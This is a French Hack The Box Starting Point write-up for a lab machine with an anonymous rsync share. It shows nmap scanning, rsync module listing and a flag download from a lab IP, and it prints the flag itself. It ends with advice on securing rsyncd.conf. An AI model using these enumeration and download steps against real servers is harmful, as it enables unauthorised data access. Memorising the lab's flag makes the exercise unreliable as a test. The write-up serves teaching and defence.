


> Plateforme : **Hack The Box** — Starting Point (Tier 0)

## Informations

- **Catégorie :** Linux / Service réseau
- **Difficulté :** Very Easy
- **Auteur du write-up :** 3ch0
- **Service :** `873/tcp` (rsync, protocole 31)
- **Flag :** `72eaf5344ebb84908ae543a719830519`

---

## 1. Reconnaissance

```bash
nmap -p- -sC -sV -T4 10.129.2.195
```

```text
PORT    STATE SERVICE VERSION
873/tcp open  rsync   (protocol version 31)
```

Un seul port utile : **rsync** sur `873`. rsync expose souvent des « modules » (partages) accessibles sans authentification quand ils sont mal configurés.



---

## 2. Énumération des modules rsync

```bash
rsync --port=873 -rdv 10.129.2.195::
```

```text
public          Anonymous Share
```


Un module **`public`** décrit comme *Anonymous Share* → accessible en anonyme. On liste son contenu :

```bash
rsync --port=873 -rdv 10.129.2.195::public
```

```text
drwxr-xr-x          4,096 2022/10/24 .
-rw-r--r--             33 2022/10/24 flag.txt
```



---

## 3. Récupération du flag

```bash
rsync --port=873 -rdv 10.129.2.195::public/flag.txt flag
cat flag
```

```text
72eaf5344ebb84908ae543a719830519
```

**Flag :** `72eaf5344ebb84908ae543a719830519`

---

## Récapitulatif

1. **nmap** → port 873 (rsync) ouvert.
2. `rsync ::` → module `public` accessible en anonyme.
3. `rsync ::public/flag.txt` → téléchargement du flag.

> **Concept clé :** rsync (port 873) peut servir des « modules » définis dans `/etc/rsyncd.conf`. Si un module a `auth users` vide ou `read only = yes` sans restriction, n'importe qui peut lister et télécharger son contenu — c'est un vecteur d'exfiltration classique et discret. L'énumération se fait avec la double colonne `rsync ::` (liste des modules) puis `rsync ::<module>` (contenu). Côté défense : exiger une authentification (`auth users` + `secrets file`) et restreindre par `hosts allow`.

---

***— 3ch0***
